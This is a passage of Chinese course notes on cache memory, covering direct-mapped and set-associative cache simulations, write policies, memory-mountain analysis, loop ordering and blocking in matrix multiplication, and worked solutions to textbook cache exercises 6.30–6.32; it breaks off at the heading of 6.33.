这几页回顾的是第 12 讲的三个核心概念，详见 13.1 节。第一，局部性：程序倾向于访问最近访问过的数据（时间局部性）和地址相邻的数据（空间局部性）。第二，存储器层次结构：从寄存器、L1、L2、L3 缓存（SRAM）到主存（DRAM）、本地磁盘、远程存储，越往上越小、越快、每字节越贵；每一层都是下一层的缓存，例如 L1 存放从 L2 取来的缓存行，主存存放从磁盘取来的块。第三，缓存的基本操作与三类不命中：数据以块为单位在相邻两层之间复制；要的块在上一层就是命中，否则不命中，此时按放置策略决定放在哪里、按替换策略决定驱逐谁；不命中分为冷不命中（缓存开始为空且第一次访问该块）、容量不命中（工作集大于缓存）和冲突不命中（容量够但多个块被限定在同一位置，如课件中块 0、8、0、8 交替访问时每次都不命中）。
这三点是本讲的出发点：本讲要回答的就是“一块真实的高速缓存怎样实现放置和替换”“怎样定量计算命中与不命中”，以及“程序员怎样写出不命中少的程序”。
1（2）基于课件第 9 页，对照第 12 讲课件第 3～9 页的结构图，讲解有了 Cache 之后的读写内存指令的操作流程。（2026 版 p.9）
第 12 讲 12.1 节讲过没有缓存时的流程：执行加载指令 movq A, %rax 时，CPU 把地址 A 经总线接口放到系统总线上，I/O 桥把它转到存储器总线，主存读出地址 A 处的字放回总线，再经 I/O 桥、系统总线回到 CPU，写入 %rax；存储指令 movq %rax, A 则是先送地址、再送数据，主存把数据写入地址 A。每一步都要经过 CPU 之外的部件，耗时上百个周期。
有了缓存以后（图 1），缓存位于 CPU 芯片内部，处在寄存器文件与总线接口之间，CPU 的每次访存先查缓存。读（movq A, %rax）：硬件从地址 A 中取出组索引选中一组，在组内比较标记（13.2 节）。命中时直接从缓存取出数据写入 %rax，只需几个周期，完全不经过总线；不命中时，才发起第 12 讲那样的总线读事务，只是读的不再是一个字，而是包含 A 的整个块（例如 64 字节），把它装进缓存的某一行（必要时先驱逐一行），再把所要的字送到 %rax。写（movq %rax, A）：同样先查缓存。在常见的“写回 + 写分配”策略下（13.6 节），命中时只修改缓存中的副本并把脏位置 1，不访问主存；不命中时先像读不命中那样把整块取进来，再修改；被修改过的块要等到被驱逐时才整块写回主存，这时才发起总线写事务。在“直写”策略下，写命中时还要立即把数据写到下一层。
两相对照，变化有三点：多数访存在芯片内完成，总线事务只在不命中（以及脏块写回）时才发生；总线上传输的单位从一个字变成一个块；写操作可以被缓存“吸收”，多次写合并成一次写回。
1（3）基于课件第 10～12 页，分析直接映射 Cache（E=1）的结构。然后在课件第 13 页示例的基础上，再设计一个类似的访问序列，并展现 hit 和 miss 的场景。（2026 版 p.10–13）
结构与一次读的三步见 13.3 节和图 3：直接映射缓存每组只有一行，每个内存块只能放在唯一的一行；读时用组索引选组，检查该行的有效位与标记，命中后用块偏移取出数据；标记不匹配时直接替换这一行，不需要替换策略。课件 p.13 的模拟（访问 0、1、7、8、0，结果为不命中、命中、不命中、不命中、不命中）见表 3。
新设计的序列沿用课件的玩具缓存（4 位地址，t = 1、s = 2、b = 1：4 组，每组 1 行，每块 2 字节），依次读地址 5、4、13、6、5、12、4、9、13。设计意图是：同一块的相邻地址（5 和 4、13 和 12）展示空间局部性带来的命中；13 与 5 的组索引相同（都是 10），展示冲突不命中；多次回到同一地址展示时间局部性在直接映射下也可能“救不了”。模拟器的逐次结果见 表 12。
表 12 研讨题 1（3）新设计的序列在直接映射缓存上的结果（t = 1，s = 2，b = 1）
| 次序 | 地址 | 组 | 标记 | 结果与原因 | 访问后组 2、组 3 的内容（组 0 最后才用到，组 1 始终为空） |
|---|---|---|---|---|---|
| 1 | 5 = 0101 | 2 | 0 | 不命中：冷不命中，装入 M[4–5] | 组 2：M[4–5] |
| 2 | 4 = 0100 | 2 | 0 | 命中：与 5 同块（空间局部性） | 组 2：M[4–5] |
| 3 | 13 = 1101 | 2 | 1 | 不命中：冷不命中，驱逐 M[4–5] | 组 2：M[12–13] |
| 4 | 6 = 0110 | 3 | 0 | 不命中：冷不命中 | 组 2：M[12–13]；组 3：M[6–7] |
| 5 | 5 = 0101 | 2 | 0 | 不命中：M[4–5] 刚被驱逐，冲突不命中 | 组 2：M[4–5]；组 3：M[6–7] |
| 6 | 12 = 1100 | 2 | 1 | 不命中：冲突不命中 | 组 2：M[12–13]；组 3：M[6–7] |
| 7 | 4 = 0100 | 2 | 0 | 不命中：冲突不命中 | 组 2：M[4–5]；组 3：M[6–7] |
| 8 | 9 = 1001 | 0 | 1 | 不命中：冷不命中，装入组 0 | 组 0：M[8–9]；组 2：M[4–5]；组 3：M[6–7] |
| 9 | 13 = 1101 | 2 | 1 | 不命中：冲突不命中 | 组 0：M[8–9]；组 2：M[12–13]；组 3：M[6–7] |
9 次访问只命中 1 次，其中 4 次是冲突不命中：M[4–5] 和 M[12–13] 的组索引都是 10，在直接映射下只能争组 2 这一行，交替访问时每次都把对方赶走，而组 1 始终空着。这就是课件 p.8 所说的“0、8、0、8……每次都不命中”的情形。
1（4）基于课件第 14～16 页，分析 2 路组相联 Cache（E=2）的结构。然后在课件第 17 页示例的基础上，再设计一个类似的访问序列，并展现 hit 和 miss 的场景。（2026 版 p.14–17）
结构见 13.4 节和图 4：每组 2 行，每个内存块可以放在所属组的任意一行；读时选中组后，两行的标记同时比较；都不匹配时在组内选一行替换（有无效行先用无效行，否则按 LRU 等策略）。课件 p.17 的模拟见表 4：同一序列 0、1、7、8、0 中，最后一次访问 0 从直接映射下的冲突不命中变成了命中。
为了与 1（3）对比，新序列仍用 5、4、13、6、5、12、4、9、13，缓存换成课件 p.17 的 2 路组相联玩具缓存（t = 2、s = 1、b = 1：2 组，每组 2 行，每块 2 字节，总容量同样是 8 字节）。逐次结果见 表 13。
表 13 研讨题 1（4）同一序列在 2 路组相联缓存上的结果（t = 2，s = 1，b = 1，LRU）
| 次序 | 地址 | 组 | 标记 | 结果与原因 | 访问后组 0 的内容（按 LRU 由旧到新） |
|---|---|---|---|---|---|
| 1 | 5 = 0101 | 0 | 01 | 不命中：冷不命中 | {01：M[4–5]} |
| 2 | 4 = 0100 | 0 | 01 | 命中：同块 | {01：M[4–5]} |
| 3 | 13 = 1101 | 0 | 11 | 不命中：冷不命中；组 0 还有空行，不驱逐 | {01：M[4–5]}，{11：M[12–13]} |
| 4 | 6 = 0110 | 1 | 01 | 不命中：冷不命中（装入组 1） | 同上；组 1：{01：M[6–7]} |
| 5 | 5 = 0101 | 0 | 01 | 命中：M[4–5] 仍在组 0 | {11：M[12–13]}，{01：M[4–5]} |
| 6 | 12 = 1100 | 0 | 11 | 命中 | {01：M[4–5]}，{11：M[12–13]} |
| 7 | 4 = 0100 | 0 | 01 | 命中 | {11：M[12–13]}，{01：M[4–5]} |
| 8 | 9 = 1001 | 0 | 10 | 不命中：冷不命中；组 0 已满，按 LRU 驱逐最久未用的 M[12–13] | {01：M[4–5]}，{10：M[8–9]} |
| 9 | 13 = 1101 | 0 | 11 | 不命中：M[12–13] 刚被驱逐，冲突不命中（同容量的全相联缓存能同时放下 4 个块，会命中） | {10：M[8–9]}，{11：M[12–13]} |
9 次访问命中 4 次，比直接映射多 3 次：M[4–5] 和 M[12–13] 现在可以同时待在组 0 的两行中，第 5～7 次访问全部命中。但组相联并没有消灭冲突不命中：第 8 次访问又有第三个块 M[8–9] 映射到组 0，LRU 驱逐了 M[12–13]，第 9 次访问 13 于是又是冲突不命中。整个序列只用到 4 个块，恰好等于缓存的总行数，如果是全相联缓存，最后一次也会命中。
1（5）基于课件第 18～19 页，分析 Cache 结构的通用形式，并以读操作为例，讲解流程。（2026 版 p.18、p.20；新增的 p.19 见 13.5 节）
通用形式见 13.2 节和图 2：缓存由 S = 2s 组构成，每组 E 行，每行有 1 位有效位、t 位标记和 B = 2b 字节的数据块，容量 C = S × E × B；m 位地址被划分为 t 位标记、s 位组索引、b 位块偏移，t = m − s − b。E = 1 是直接映射，S = 1 是全相联，其余是 E 路组相联——前两问的两种结构都是这个通用形式的特例。
读操作的流程分三步：选组（取出地址的中间 s 位作为无符号数，直接选中该组）、行匹配（把地址的高 t 位与组内每一行的标记同时比较，有效位为 1 且标记相等的行就是命中行）、字抽取（用低 b 位作为块内偏移，从命中行的数据块中取出数据）。不命中时，从下一层取来包含该地址的整个块，放进该组的一行（有无效行就用无效行，否则按替换策略驱逐一行），再完成读取。参数之间的换算见表 2。
2026 版新增的 p.19 提出“S、E、B 能不能不是 2 的幂”。13.5 节的回答是：B、S 取 2 的幂，使块偏移和组索引可以直接从地址中截取，不需要运算；E 不参与地址划分，可以是任意值，例如 48 KB、12 路的 L1d（64 组 × 12 行 × 64 字节）；大容量 L3 的组数也可能不是 2 的幂（用哈希函数选择切片）。
1（6）基于课件第 20～21 页，讲解写操作的流程和不同实现形式。（2026 版 p.21–22）
同一数据在多级存储中有多个副本，所以写操作要回答两个问题（详见 13.6 节）。第一个问题是写命中时怎么办：可以直写（立即写到下一层，简单但流量大），也可以写回（只改缓存，驱逐时才写回整块，需要每行一个脏位）。第二个问题是写不命中时怎么办：可以写分配（先把块取进缓存再写，适合后续还要访问该块的情况）或非写分配（绕过缓存直接写下一层）。常见组合是“写回 + 写分配”与“直写 + 非写分配”。
“写回 + 写分配”的完整流程（课件 p.22，图 5）：写地址 X 时，若命中，修改块中的数据并把脏位置 1（脏位只在驱逐时清零）；若不命中，先按读不命中取来块，再按写命中修改；任何一行被驱逐时，若脏位为 1，先把整个块写回内存。13.6 节的示例（表 5）定量比较了两种组合：同一段先写两遍数组 a、再读数组 b 的程序，写回策略对主存只写了 4 次（4 个块），直写策略写了 16 次；写的遍数越多，差距越大。这就是现代处理器各级缓存都采用写回的原因。（课件 p.22 的 “The perform the write operations” 应为 “Then perform …”。）
1（7）基于课件第 22～25 页，分析 Cache 对地址各位域分解的设计考虑。（2026 版 p.23–26）
地址分解的设计考虑（13.7 节和图 6）可以归纳为三点。第一，块偏移必须在最低位：同一块中的字节地址相邻，只在低 b 位上不同，这样一个块才对应一段连续的内存，空间局部性才能发挥作用。第二，组索引放在中间位，而不是最高位：课件 p.24–26 的例子中（64 字节内存、16 字节直接映射缓存、块大小 4 字节，所以 4 组），中间位索引让相邻的块轮流落在 4 个组，一段连续的数组可以同时放进缓存；高位索引则让连续的 4 个块都落在同一组，互相冲突。模拟一个 16 字节的数组逐字节读两遍：中间位索引 4 次不命中（全是冷不命中），高位索引 8 次不命中（另有 4 次冲突），组 1～3 始终空着。第三，剩下的高位作标记：同一组内可能出现的块，组索引都相同，只有高位不同，所以标记只需要存高 t 位。另外，B、S 取 2 的幂，使“截取地址位”就能完成分解，不需要除法（13.5 节）。
1（8）基于课件第 26～28 页的结构图和示例，解读酷睿 i7 CPU 中的 Cache 设计。（2026 版 p.27–29）
Core i7 的缓存层次（13.8 节和图 7、图 8）是这样的：每个核心私有 L1 指令缓存和 L1 数据缓存（各 32 KB、8 路、4 个周期）与 L2 统一缓存（256 KB、8 路、10 个周期），所有核心共享 L3 统一缓存（8 MB、16 路、40～75 个周期），块大小都是 64 字节。L1 指令、数据分开，是为了让取指令和读写数据在同一个周期内并行进行；L2、L3 统一存放，是为了灵活利用容量；L3 共享，是为了让多个核心共用的数据只存一份，并减少访问主存的次数。
课件 p.28–29 接着给了一道地址划分的练习：32 KB、8 路、64 字节块、47 位地址。B = 64，b = 6；E = 8；S = 32768 / (8 × 64) = 64，s = 6；t = 47 − 6 − 6 = 35。地址 0x00007f7262a1e010 的最低 12 位是 0000 0001 0000：块偏移（低 6 位）为 0x10，组索引（接下来 6 位）为 0x0，标记为地址右移 12 位，即 0x7f7262a1e。组索引与块偏移合起来正好是 12 位，等于 4 KB 页的页内偏移，这让 L1 可以在地址翻译的同时完成选组（后面虚拟内存一讲会再遇到）。今天的处理器结构相同、容量更大，例如默认环境的 L1d 为 48 KB、12 路，L2 为 2 MB，L3 为 260 MB。
1（9）基于课件第 29～30 页，分析 Cache 的重要性能指标。（2026 版 p.30–31）
衡量缓存性能的有三个指标（13.9 节）：不命中率（不命中次数 / 访问次数，L1 典型 3%～10%）、命中时间（访问缓存的时间，L1 约 4 个周期、L2 约 10 个周期）、不命中处罚（因不命中额外需要的时间，访问主存约 50～200 个周期，且呈增长趋势）。三者用平均访问时间联系起来：平均访问时间 = 命中时间 + 不命中率 × 不命中处罚。课件 p.31 的例子：命中时间 1 周期、处罚 100 周期时，命中率 97% 的平均访问时间是 1 + 0.03 × 100 = 4 个周期，99% 时是 1 + 0.01 × 100 = 2 个周期——命中率只差 2 个百分点，性能却差一倍。所以通常用不命中率而不用命中率来描述缓存：不命中率从 3% 降到 1%，是“降为三分之一”，直接对应性能的变化。多级缓存时把公式递推下去，L1 的不命中处罚就是 L2 的平均访问时间（13.9 节的 AMAT 算例：有 L2 时 6.6 个周期，没有 L2 时 14 个周期）。
研讨题 2：存储性能分析#
2（1）讲解课件第 34 页的程序内容和运行方式，然后详细分析课件第 35 页的评测结果，要把图中每个箭头指向的位置和相互联系都解释清楚。（2026 版 p.35（及新增的 p.36）、p.37）
程序见 13.10 节。test(elems, stride) 以步长 stride 遍历全局数组 data 的前 elems 个元素并累加，采用 4×4 循环展开（每次迭代读 4 个元素，加到 4 个独立的累加器上），使加法不成为瓶颈。运行方式：对每一组工作集大小（elems × 8 字节）和步长，先调用一次 test() 预热缓存，把工作集装进它能装进的那一级缓存，再调用一次并计时，读吞吐量 = 读出的字节数 / 时间。这样测出的是“数据已经在某一级缓存中时”的速度，冷不命中被排除在外。2026 版新增的 p.36 是不展开的简化版，其中 sum 没有初始化（应为 long i, sum = 0;）；简化版的读吞吐量被加法依赖链限制，在缓存区域明显偏低，不适合用来测量（13.10 节）。
课件 p.37 的图是 Core i7 Haswell（2.1 GHz；L1d 32 KB、L2 256 KB、L3 8 MB；块 64 字节）上测得的存储器山，图中有三组箭头。图 9 是讲义在默认环境上实测的同类曲面，可以对照着读：
- “Ridges of temporal locality”（时间局部性的山脊）：一组箭头指向四道与工作集大小轴垂直的山脊，从高到低依次是 L1、L2、L3 和主存，课件在图中用 L1、L2、L3、Mem 四个标签标出。每道山脊对应“工作集能完全装进某一级缓存”的一段大小范围（Haswell 上约为 ≤ 32 KB、≤ 256 KB、≤ 8 MB 和更大），山脊之间的断崖正好出现在各级缓存的容量处。工作集越小，数据在越高（越快）的层次中被反复访问，这是时间局部性的体现。最高的 L1 山脊约 14 GB/s，主存区域最低处约 0.9 GB/s，相差一个数量级以上。
- “Slopes of spatial locality”（空间局部性的斜坡）：另一组箭头指向 L2、L3、主存山脊上沿步长方向向下倾斜的坡面。块大小 64 字节、每个元素 8 字节，步长为 s 时每次访问的不命中率约为 s/8（s ≤ 8），步长越大，块中被用到的数据越少，吞吐量越低；步长 ≥ 8 时每次访问都换块，坡面趋于平坦。L1 山脊几乎没有坡度，因为数据都在 L1 中，不存在换块的代价。
- “Aggressive prefetching”（激进的预取）：一个箭头指向步长为 1 的那一排，在工作集超过 L2、甚至超过 L3 时，这一排的吞吐量仍然明显高于相邻的步长 2、3，形成一道平坦的“高原”。原因是硬件预取器识别出顺序访问的模式，在数据被访问之前就把后面的块取进了缓存，掩盖了不命中的延迟。
三者的联系是：存储器山的高度由“数据在哪一级”（时间局部性，决定落在哪道山脊）和“每块用到多少”（空间局部性，决定在山脊的哪个坡位）共同决定，预取则在规整的小步长访问上额外抬高了山的一侧。写程序时要做的，就是让工作集尽量小（往山脊高处走），让步长尽量小（往坡的高处走）。默认环境的实测曲面形状与课件完全一致，只是数值大得多（L1 山顶约 45～49 GB/s），两条剖面线见图 10。
2（2）基于课件第 37～39 页，讲解该示例程序代码并分析运行时的 Cache 性能表现。（2026 版 p.39–41）
这一问的分析见 13.11 节。p.39 的程序是 n × n 的 double 矩阵乘法，ijk 次序，内层循环对 k 累加 a[i][k] × b[k][j]，累加变量 sum 放在寄存器中，内层结束后写入 c[i][j]。总运算量 O(n³)，每个源元素被读 n 次。
p.40–41 给出的分析方法是：假设块 32 字节（4 个 double），n 很大（1/n ≈ 0），缓存小到装不下几行，只看内层循环的访存模式。C 数组按行优先存放：内层循环沿一行访问（步长 1）时，每 4 个元素换一个块，每次迭代 0.25 次不命中（即 sizeof(aij) / B）；沿一列访问（步长 n）时，每个元素都在不同的块，每次迭代 1 次不命中（100%）。
ijk 的内层循环中，A 按行访问（0.25），B 按列访问（1.0），C 固定（0），每次迭代 1.25 次不命中。B 的按列访问是性能瓶颈：它每次都换块，而一个块中另外 3 个 double 要到 j 加 1 以后才会用到，那时早已被驱逐。模拟器在“缓存小于一行”的条件下（1 KB、4 路、32 字节块，n = 160）测得 A 0.250、B 1.000、C 0.006，合计 1.256，与分析一致。
2（3）基于课件第 40～41 页和第 46～47 页，解读 ijk 和 jik 两种循环形式的运算过程和 Cache 相关操作。（2026 版 p.42–43、p.48–49）
先看 ijk 与 jik 这一组（13.11 节表 6、图 11）。从运算过程看，ijk 外层枚举 i、中层枚举 j，jik 外层枚举 j、中层枚举 i，两者的内层循环相同——固定 (i, j)，k 从 0 到 n − 1，把 a[i][k] × b[k][j] 累加到寄存器 sum 中，最后写入 c[i][j]。也就是每次内层循环算出 C 的一个元素（“行乘列”）：ijk 按行逐个算出 C 的元素，jik 按列逐个算出。再看与缓存相关的操作：内层循环中 A 的第 i 行按行访问，每 4 次迭代不命中 1 次（0.25）；B 的第 j 列按列访问，每次迭代都不命中（1.0）；C 只在内层循环结束时写一次（0）。每次内层迭代 2 次读、0 次写、1.25 次不命中。p.48 把它们归为一组（“2 loads, 0 stores, misses/iter = 1.25”）。p.49 的实测中，它们居中：n 较小时与最快的一组接近，n 超过 400 左右后升到每次迭代约 20 个周期。默认环境的实测见图 12：n ≥ 400 时约 0.7～1.5 ns，介于另两组之间。
2（4）基于课件第 42～43 页和第 46～47 页，解读 kij 和 ikj 两种循环形式的运算过程和 Cache 相关操作。（2026 版 p.44–45、p.48–49）
kij 与 ikj 这一组的运算过程不同：kij 外层枚举 k、中层枚举 i，ikj 外层枚举 i、中层枚举 k；中层先把 a[i][k] 读进寄存器 r，内层循环固定 (i, k)，j 从 0 到 n − 1，做 c[i][j] += r × b[k][j]。也就是把 B 的第 k 行乘以标量 a[i][k]，累加到 C 的第 i 行上（“标量乘行，累加到行”）；C 的每个元素要经过 n 次这样的累加才算完。在缓存方面，A 的元素在内层固定（0）；B 的第 k 行按行访问（0.25）；C 的第 i 行按行访问（0.25），而且每次迭代要读出 c[i][j]、加上、写回，写的地址刚刚读过，必定命中。每次内层迭代 2 次读、1 次写、0.5 次不命中，是三组中最少的。p.49 的实测中这一组最快，并且几乎不随 n 变化；默认环境的实测（图 12）也是如此，n 从 50 到 1300 始终约 0.4～0.6 ns。
2（5）基于课件第 44～45 页和第 46～47 页，解读 jki 和 kji 两种循环形式的运算过程和 Cache 相关操作。（2026 版 p.46–47、p.48–49）
最后一组 jki 与 kji 的运算过程是：jki 外层枚举 j、中层枚举 k，kji 外层枚举 k、中层枚举 j；中层把 b[k][j] 读进寄存器 r，内层循环固定 (k, j)，i 从 0 到 n − 1，做 c[i][j] += a[i][k] × r。也就是把 A 的第 k 列乘以标量 b[k][j]，累加到 C 的第 j 列上（“标量乘列，累加到列”）。这一组的访存最糟：A 的第 k 列按列访问（1.0），B 的元素固定（0），C 的第 j 列按列访问（1.0），每次迭代 2 次读、1 次写、2.0 次不命中，是三组中最多的。p.49 的实测中这一组最慢，n 大时每次迭代达到几十个周期；默认环境中 n = 1300 时约 11.7 ns，是 kij 的 20 多倍（图 12）。
比较三组可以看出，内层循环的访问模式决定性能；同样 2 次读，按列访问的矩阵越多越慢；kij 虽然每次迭代多 1 次写，但写的是按行访问、已在缓存中的数据，仍是最快的。
2（6）基于课件第 49～51 页，详细解读每轮循环的操作过程和 Cache 中保存了哪些数据，然后讲解 miss 总次数的计算方法。（2026 版 p.51–53）
这一问的完整推导见 13.12 节。p.51 的程序是不分块的 ijk 矩阵乘法 c[i*n + j] += a[i*n + k] × b[k*n + j]，p.52 的分析前提是：元素为 double，缓存块 = 8 个 double，缓存大小 C 远小于 n。
不妨跟着循环走两轮。第一轮计算 c[0][0]（p.52），内层循环 k 从 0 到 n − 1，读 a 的第 0 行和 b 的第 0 列。a 的一行 n 个元素按行访问，占 n/8 个缓存块，产生 n/8 次不命中；b 的一列按列访问，每个元素在不同的块中，产生 n 次不命中；合计 n/8 + n = 9n/8 次。这一轮结束后，缓存中保存的是 a 第 0 行最后访问的那几个块，以及 b 第 0 列最后访问的那些块（每个块是 b 某一行中从第 0 列开始的 8 个元素，宽 8 个 double，课件示意图中的“8 wide”）；由于 C 远小于 n，a 行和 b 列开头部分的块都已被后来的块驱逐。
第二轮计算 c[0][1]（p.53），再读 a 的第 0 行和 b 的第 1 列。b 第 1 列的每个元素与第 0 列的对应元素在同一个块中，但那些块的大部分已被驱逐；a 第 0 行的开头部分同样不在缓存中。所以又是 9n/8 次不命中。此后每一轮都一样。
照此类推，每算一个 c 元素约 9n/8 次不命中，共 n² 个元素，总计 9n/8 × n² = (9/8)n³（c 本身每 8 个元素 1 次不命中，共 n²/8 次，与 n³ 相比可以忽略）。用模拟器核对：n = 240、8 KB 全相联缓存、64 字节块，统计得 15 609 600 次，(9/8)n³ = 15 552 000，相差不到 0.4%。
2（7）基于课件第 52～55 页，讲解 blocking 模式的程序代码，详细解读每轮循环的操作过程和 Cache 中保存了哪些数据，然后讲解 miss 总次数的计算方法。（2026 版 p.54–57）
分块的写法见 13.12 节和图 13：p.54 的程序把三个矩阵看成由 B × B 小块组成的块矩阵。外层三重循环 (i, j, k) 以 B 为步长枚举块坐标，内层三重循环 (i1, j1, k1) 在块内做 B × B 小矩阵乘法：c 的块 (i, j) += a 的块 (i, k) × b 的块 (k, j)。c 要先用 calloc 清零（课件中 calloc 两个参数的顺序与原型相反、i1/j1/k1 未声明、下标写成二维形式，都是简写，不影响理解）。
分析仍需要前提（p.55）：块 = 8 个 double，C 远小于 n，三个 B × B 小块能同时放进缓存，即 3B² < C。
第一轮块迭代计算 c 的块 (0, 0)（p.55），依次用到 a 的第 0 行块条中的 n/B 个小块和 b 的第 0 列块条中的 n/B 个小块。每个小块 B² 个元素，占 B²/8 个缓存块，装入时产生 B²/8 次不命中；装入以后在这次 B × B 小矩阵乘法中，a 小块的每个元素被用 B 次，b 小块的每个元素也被用 B 次，都不再不命中（因为三个小块放得下）。所以这一轮 a、b 共 2 × (n/B) × (B²/8) = nB/4 次不命中（忽略 c）。这一轮结束后，缓存中保存的是 c 的块 (0, 0)（已算完）、a 第 0 行块条的最后一个小块和 b 第 0 列块条的最后一个小块（p.55 示意图中的红色块）。
第二轮块迭代计算 c 的块 (0, 1)（p.56），用到 a 的第 0 行块条（与上一轮相同，但除最后一块外已被驱逐）和 b 的第 1 列块条，同样是 nB/4 次不命中。
由此可得总次数：c 共有 (n/B)² 个块，每块 nB/4 次，总计 nB/4 × (n/B)² = n³/(4B)（p.56）。与不分块的 (9/8)n³ 相比少了 4.5B 倍，所以在 3B² < C 的限制下 B 应取得尽可能大（p.57）。模拟器核对（n = 240、8 KB 全相联缓存）：B = 8 时 439 200 次（模型 432 000），B = 16 时 223 200 次（模型 216 000），比不分块少约 70 倍；B = 40 时一个小块已比缓存还大，不命中暴涨到 1 814 400 次。分块之所以有效，是因为矩阵乘法本身有很强的时间局部性：3n² 个数据参与 2n³ 次运算，每个元素被用 O(n) 次，分块只是把这些重用安排到数据还在缓存中的时候。默认环境的实测（表 7）：n = 2304 时分块（B = 32）比 ijk 快 4 倍多。
2（8）总览第 12 讲和第 13 讲，简要说明 Cache 的用途和如何用好 Cache。
先说缓存的用途。处理器与主存之间存在巨大的速度差距（第 12 讲：寄存器 1 个周期，L1 约 4 个周期，主存上百个周期，磁盘上千万个周期），而且这个差距随时间越拉越大。缓存利用程序的局部性，把最常用的一小部分数据放在小而快的 SRAM 中，让绝大多数访存在几个周期内完成，从而使整个存储系统“用便宜存储器的价钱、得到接近快速存储器的速度”。缓存由硬件自动管理，对程序透明：程序不需要修改就能受益；但程序的写法决定了它能受益多少。同样的思想贯穿整个计算机系统：TLB 缓存页表项，主存缓存磁盘上的页，浏览器缓存网页（第 12 讲 12.14 节）。
至于如何用好缓存，可以归纳为几条可操作的原则：
- 关注内层循环：程序的大部分时间花在内层循环中，优化应集中在那里（课件 p.32）。
- 提高空间局部性：让内层循环以步长 1 访问数据——二维数组按行访问、矩阵乘法选 kij/ikj 次序（13.11 节）；按字段访问时考虑把结构体数组改成多个数组（13.13 节例 3）。
- 提高时间局部性：让一个数据读进缓存后尽量多用几次——变量放在寄存器中、对大矩阵分块（13.12 节），让工作集小于缓存（13.10 节的存储器山）。
- 避免冲突：注意多个数组的起始地址相差缓存大小整数倍的情况，必要时加填充（13.13 节例 1）。
- 用数据说话：用存储器山了解机器的存储系统，用计时和缓存模拟器验证优化效果；不命中率比命中率更能反映性能的差异（13.9 节）。
最终的目标，用课件 p.32 的话说，是把对“局部性”的定性认识，通过对缓存的理解变成定量的计算和有效的程序。
第三部分 作业题解答：6.30–6.35#
六道作业题分两组：6.30–6.33 围绕同一块 4 路组相联缓存，练习地址划分和查表判断命中；6.34–6.35 是 4 × 4 矩阵转置在两种直接映射缓存上的逐次分析，练习 13.13 节的方法。题目数据按中文版（第 453–455 页），与英文国际版逐字核对过，两版数据完全相同；所有结果都用模拟器和脚本核对。
6.30 缓存的容量与地址格式#
6.30假设我们有一个具有如下属性的系统：内存是字节寻址的；内存访问是对 1 字节字的（而不是 4 字节字）；地址宽 13 位；高速缓存是四路组相联的（E = 4），块大小为 4 字节（B = 4），有 8 个组（S = 8）。高速缓存的状态见下表（所有地址、标记和值都以十六进制表示；索引列是组号，每组 4 行，每行给出标记、有效位 V 和字节 0～3）。A. 这个高速缓存的大小（C）是多少字节？B. 在 13 位地址的格式图中，标出用来确定 CO（块偏移）、CI（组索引）、CT（标记）的字段。
题目给出的缓存状态照录如下（表 14），6.31–6.33 都要用到它。
表 14 作业 6.30 的四路组相联缓存状态（十六进制；“标记 / V / 字节 0～3”）
| 组 | 第 0 行 | 第 1 行 | 第 2 行 | 第 3 行 |
|---|---|---|---|---|
| 0 | F0 / 1 / ED 32 0A A2 | 8A / 1 / BF 80 1D FC | 14 / 1 / EF 09 86 2A | BC / 0 / 25 44 6F 1A |
| 1 | BC / 0 / 03 3E CD 38 | A0 / 0 / 16 7B ED 5A | BC / 1 / 8E 4C DF 18 | E4 / 1 / FB B7 12 02 |
| 2 | BC / 1 / 54 9E 1E FA | B6 / 1 / DC 81 B2 14 | 00 / 0 / B6 1F 7B 44 | 74 / 0 / 10 F5 B8 2E |
| 3 | BE / 0 / 2F 7E 3D A8 | C0 / 1 / 27 95 A4 74 | C4 / 0 / 07 11 6B D8 | BC / 0 / C7 B7 AF C2 |
| 4 | 7E / 1 / 32 21 1C 2C | 8A / 1 / 22 C2 DC 34 | BC / 1 / BA DD 37 D8 | DC / 0 / E7 A2 39 BA |
| 5 | 98 / 0 / A9 76 2B EE | 54 / 0 / BC 91 D5 92 | 98 / 1 / 80 BA 9B F6 | BC / 1 / 48 16 81 0A |
| 6 | 38 / 0 / 5D 4D F7 DA | BC / 1 / 69 C2 8C 74 | 8A / 1 / A8 CE 7F DA | 38 / 1 / FA 93 EB 48 |
| 7 | 8A / 1 / 04 2A 32 6A | 9E / 0 / B1 86 56 0E | CC / 1 / 96 30 47 F2 | BC / 1 / F8 1D 42 30 |
A. C = S × E × B = 8 × 4 × 4 = 128 字节。
B. B = 4，块偏移 b = 2 位；S = 8，组索引 s = 3 位；标记 t = 13 − 3 − 2 = 8 位。所以 CO 是第 1～0 位，CI 是第 4～2 位，CT 是第 12～5 位（表 15）。这也和表中的标记都是两位十六进制数（8 位）相符。
表 15 作业 6.30 的 13 位地址格式
| 位 | 12 | 11 | 10 | 9 | 8 | 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 字段 | CT | CT | CT | CT | CT | CT | CT | CT | CI | CI | CI | CO | CO |
6.31 地址 0x071A#
6.31假设程序使用作业 6.30 中的高速缓存，引用位于地址 0x071A 处的 1 字节字。用十六进制表示出它所访问的高速缓存条目，以及返回的高速缓存字节值。指明是否发生了高速缓存不命中。如果出现高速缓存不命中，对于“返回的高速缓存字节”输入“—”。提示：注意那些有效位！A. 地址格式；B. 内存引用。
A. 0x071A 写成 13 位二进制是 0 0111 0001 1010，按 6.30 的格式分段：标记（第 12～5 位）0011 1000，组索引（第 4～2 位）110，块偏移（第 1～0 位）10。
B. CO = 0x2，CI = 0x6，CT = 0x38。查组 6：第 0 行的标记是 38，但有效位为 0，这一行的数据无效，不算匹配；第 3 行的标记也是 38，有效位为 1，命中。块偏移 2 取出第 3 行的字节 2，返回 0xEB。题目的提示正是针对组 6 的这两个同标记行：只看标记会误以为第 0 行命中、返回 0xF7。
表 16 作业 6.31 的答案
| 参数 | 值 |
|---|---|
| 高速缓存块偏移（CO） | 0x2 |
| 高速缓存组索引（CI） | 0x6 |
| 高速缓存标记（CT） | 0x38 |
| 高速缓存命中？ | 是 |
| 返回的高速缓存字节 | 0xEB |
6.32 地址 0x16E8#
6.32对于内存地址 0x16E8 重复作业 6.31。
A. 0x16E8 = 1 0110 1110 1000：标记 1011 0111，组索引 010，块偏移 00。
B. CO = 0x0，CI = 0x2，CT = 0xB7。组 2 的四行标记分别是 BC、B6、00、74，没有 B7（注意 B6 只差一位，容易看错），不命中，返回的字节填“—”。
表 17 作业 6.32 的答案
| 参数 | 值 |
|---|---|
| 高速缓存块偏移（CO） | 0x0 |
| 高速缓存组索引（CI） | 0x2 |
| 高速缓存标记（CT） | 0xB7 |
| 高速缓存命中？ | 否 |
| 返回的高速缓存字节 | — |
6.33 在组 2 中命中的地址#
